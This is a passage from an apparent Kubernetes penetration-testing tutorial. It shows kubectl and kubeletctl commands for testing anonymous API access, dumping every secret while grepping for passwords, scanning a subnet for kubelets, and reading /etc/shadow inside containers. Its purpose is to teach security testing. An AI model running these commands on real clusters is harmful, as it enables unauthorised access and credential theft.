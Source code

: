 ```
/api/v1
/apis
/version
/healthz
/metrics
/logs
```

Many clusters have anonymous access enabled by default, allowing you to enumerate resources without authentication!

## Essential Tools for Kubernetes Penetration Testing

### 1. kubectl - Your Swiss Army Knife

The official Kubernetes CLI is your primary tool for interaction. Here's how to use it for reconnaissance:

```bash
# Test anonymous access
kubectl --insecure-skip-tls-verify \
  --server=https://target.com:6443 get pods

# Enumerate all resources
kubectl get all --all-namespaces

# Check your permissions
kubectl auth can-i --list

# Hunt for secrets
kubectl get secrets --all-namespaces -o yaml | grep -i password
```

**Pro Tip**: Always check `kubectl auth can-i --list` first to understand what actions you're allowed to perform.

### 2. kubeletctl - The Kubelet Exploitation Framework

The kubelet is often the weakest link in Kubernetes security. kubeletctl makes exploitation straightforward:

```bash
# Installation
curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.9/kubeletctl_linux_amd64
chmod +x kubeletctl_linux_amd64

# Scan for vulnerable kubelets
kubeletctl scan --cidr 10.0.0.0/24

# Execute commands in containers
kubeletctl exec "cat /etc/shadow" -s target-ip
```
